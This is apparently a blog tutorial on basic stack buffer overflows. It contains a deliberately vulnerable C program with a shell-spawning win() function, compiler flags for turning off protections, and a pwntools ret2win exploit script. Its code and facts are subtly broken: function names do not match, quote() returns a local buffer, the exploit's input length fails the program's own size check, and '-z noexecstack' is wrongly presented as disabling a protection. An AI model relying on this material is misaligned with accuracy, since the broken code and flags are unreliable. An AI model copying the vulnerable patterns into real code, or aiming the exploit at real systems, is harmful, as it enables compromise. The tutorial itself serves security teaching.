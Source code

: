 +++
author = "Emily Miller"
title = "How to: Basic buffer overflows without stack protections"
date = "2025-02-10"
description = """This is a simple guide on how to perform basic buffer
overflows, including an example exploit script."""
tags = [  ]
+++

Kind of starting a little basic, but what is a buffer overflow? Effectively,
when the program is expecting a certain amount of data to be written, and more
data than that gets written, *overflowing* the buffer. When done on the stack
(the most basic case), this is often called *stack smashing* (as seen in the amazing stack canary message "**** stack smashing detected ****").

For instance, if our memory looks something like below:

`| Other function memory (variables, etc.) | Buffer | More function memory |
return address |`

What we can do to gain control flow is write through that Buffer and the
function memory and overwrite the return address. Often, this occurs in ret2win
style challenges, where we need to return to some win function.

Lets take the following code as our example:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
    char buffer[64];  // Vulnerable buffer size
    int size;

    printf("Enter the size of your input: ");
    scanf("%d", &size);  // User inputs the size for fgets

    if (size > 0 && size < sizeof(buffer)) {
        printf("Enter your input: ");
        fgets(buffer, size, stdin);
	    print_quotes(buffer);
    }
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

The example above looks a little convoluted, and I've done that because that's
what real buffer overflows look like. 99% of the time, these come from the
programmer writing some piece of code to do some small task (in this case
wrapping some string in quotes), and forgetting to account for issues that may
arise with how things interact with it. The more experienced among you may notice
a second vulnerability lurking in this program, but we'll cover that another
time.

Note if you want to follow at home, you will need to compile with stack
protections disabled, which can be done like `gcc -fno-stack-protector -z
noexecstack -no-pie -o vulnerable_program vulnerable_program.c` (Take a moment
to notice just how many things we're having to disable in order to make this
work --- this is something that rarely happens in modern programs, which is why
more advanced exploitation techniques are usually needed).
`

Here, we can use a very simple exploit to attack it:

```python
from pwn import *

# Hacker defined parameters
process_name = "./vulnerable_program"
offset = 64 # Placeholder, you'll need to find this using GDB
win_address = 0x123456 # You get this from GDB as well

# Calculate our payload
payload = b"A"*offset + p64(win_address) # <-- standard buffer overflow payload

# Exploit
p = process(process_name)
p.sendline(bytes(str(offset+8), "utf-8"))
p.sendline(payload)

# Reap the benefits
p.interactive()
```
Another important thing to keep in mind is those parameters need to be
determined by you, the attacker. There are ways of getting around this,
including automatic static analysis of the binary (some of which can be done in
`pwntools`, albeit with some reliability issues) and fuzzing, but that's a topic
to explore on your own as you gain more exploit development experience.
